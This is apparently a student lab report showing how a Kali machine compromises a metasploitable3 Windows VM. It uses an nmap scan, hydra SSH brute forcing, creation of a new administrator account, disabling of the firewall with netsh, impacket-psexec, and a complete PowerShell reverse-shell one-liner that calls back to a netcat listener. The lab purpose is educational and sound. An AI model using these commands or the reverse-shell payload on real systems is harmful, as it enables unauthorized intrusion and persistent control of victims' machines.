 # Execution of simple demo of a remote and reverse shell 

##                          1. Introduction

In this report I will try to show how easy it is to obtain capabilities of controlling vulnerable windows systems through remote and  reverse shell technique.

## 2. Our Set-Up
In order to execute the demo we will need to have 2 VMs . One is  ```Kali Linux``` and another one is  ```metasploitable3``` (Windows version). I will use  ```Oracle VirtualBox``` to run both. We suppose that both systems stay in the same network. To make sure that both systems are on the same network, we must have equal network settings for both VMs.

That look like this:

![](Screenshot%201.png)

So our starting point gonna be:

![](Screenshot%202025-07-01%20000602.png)

NOTE:
In order to enter the  ```Kali Linux``` system we will need to enter  ```kali:kali``` credentials and for ```metasploitable3``` we will use  ```vagrant:vagrant``` credentials. After this we will have completly functional 2 operating systems

## 3. Discovery

To start, as an attacker (```Kali Linux User```), we first need to find or discover our victim (```Windows User```). By this I mean we need to find its IP address.

First of all we need to execute (on ```Kali Linux system```)  ```ifconfig``` command to know own IP address 

output (only relevant part) is 
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
inet 10.0.2.15  netmask 255.255.255.0  broadcast 10.0.2.255
inet6 fe80::4bfb:2c17:c56e:39fc  prefixlen 64  scopeid 0x20<l
```
So now we know that our IP address is ```10.0.2.15``` and netmask is  ```255.255.255.0.```
After this we have to find other hosts on the same network, to do this we execute the  ```nmap 10.0.2.0/24```command. It will take a bit of time. Output (its relevant part ) of command will give us 

 ```Nmap scan report for 10.0.2.4
Host is up (0.0011s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
4848/tcp  open  appserv-http
5985/tcp  open  wsman
8080/tcp  open  http-proxy
8383/tcp  open  m2mservices
9200/tcp  open  wap-wsp
49153/tcp open  unknown
49154/tcp open  unknown
MAC Address: 08:00:27:D7:CC:D8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
 ```
This is information about potential victim. To get more detailed information we can execute  ```nmap -sV 10.0.2.4``` and get 

 ```Nmap scan report for 10.0.2.4
Host is up (0.0011s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      Microsoft ftpd
22/tcp    open  ssh      OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http     Microsoft IIS httpd 7.5
4848/tcp  open  ssl/http Oracle Glassfish Application Server
5985/tcp  open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http     Sun GlassFish Open Source Edition  4.0
8383/tcp  open  http     Apache httpd
9200/tcp  open  http     Elasticsearch REST API 1.1.1 (name: Jane Foster; Lucene 4.7)
49153/tcp open  msrpc    Microsoft Windows RPC
49154/tcp open  msrpc    Microsoft Windows RPC
MAC Address: 08:00:27:D7:CC:D8 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
 ```
And now we have an IP address and a list of exposed services, ports and, more importantly, the versions of the software of a victim machine. So theoretically we can analyze the list of services, find exploits for any of them and use them for attacking, but we will take an easier path.

## 4. Password Cracking

In this part we will try to crack victims credentials through remote service  ```ssh```,  using  ```hydra```. 
To do so we will execute  ```hydra -L metasploitable3-short.txt -P metasploitable3-short.txt 10.0.2.4 ssh``` . Where ```hydra``` is the name of a program for brute forcing, ```metasploitable3-short.txt``` is a prepared list of probable logins and passwords of windows systems that are not configured properly. 
So, in short, we try to find valid combinations of username and password to access via ```ssh``` ```Metasploitable3``` machine at 10.0.2.4.

The Result of this command gonna be 

 ```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-30 18:55:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 900 login tries (l:30/p:30), ~57 tries per task
[DATA] attacking ssh://10.0.2.4:22/
[22][ssh] host: 10.0.2.4   login: vagrant   password: vagrant
[22][ssh] host: 10.0.2.4   login: Administrator   password: vagrant
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-30 18:55:49 
```

## 5. Controlling Victim’s PC via SSH

So now we know, we can access via ```ssh``` victim’s computer using one of 2 credentials that ```hydra``` has found . Let's do this with  ```ssh vagrant@10.0.2.4```. After entering the password we have access to the victim's pc via ```ssh```.

![](Screenshot%202025-07-01%20010144.png)

We can even add a new user and make it Administrator!!! 
With a command :
 ```
net user {nama new user} {password of new user}  /add
net localgroup administrators {name of  new user} /add 
  ```
![](Screenshot%202025-07-01%20011150.png)



## 6. Taking control of Victim’s PC via Reverse shell

In this chapter I will show how to gain more or less the same control of the victim's system but using the ```Reverse shell method``` , instead of using ```ssh``` connection. 
To execute this demo we will need to enter this command in our ```ssh``` shell  ```netsh advfirewall set allprofiles state off``` . This command temporarily turns off Windows Firewall, that otherwise would not let successful execution of this demo. After this, we will use the ideal tool for this goal, that is to say  ```psexec.py``` (part of the  ```Impacket suite```, already present in Kali). The beauty of  ```psexec``` is that, if the authentication is successful, it directly provides you with an interactive shell on the target system. But before we need to start our  ```netcat listener``` in a Kali terminal (preferably in another tab) with  ```nc -lnvp 4242```

![](Screenshot%202025-07-01%20013143.png)

After this we need to, in a second Kali terminal, run  ```psexec.py``` with the credentials we found. 
With a command :
 ```impacket-psexec vagrant:vagrant@10.0.2.4 ``` (in our case )
If  ```psexec.py``` is successful, it will directly give us a Windows command prompt  (e.g. ``` C:\Windows\system32>)```. 

![](Screenshot%202025-07-01%20013708.png)
Like this

We are now in control!

(To complete the ```Reverse Shell``` demo)  From the prompt we got with  ```psexec```, we can now launch the payload for the reverse shell that will connect to your netcat listener. A common payload for Windows uses PowerShell:

 ```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.2.15',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" ```

By copying and pasting this entire command into the ```psexec``` prompt. We will see our netcat listener start up, giving us an interactive PowerShell shell.

![](Screenshot%202025-07-01%20014844.png)


a little example of what we can do 

![](Screenshot%202025-07-01%20014909.png)

That's all 

## REFERENCES
In order to build this demo I used the teacher's website and slides. I also got help with commands from google’s gemini


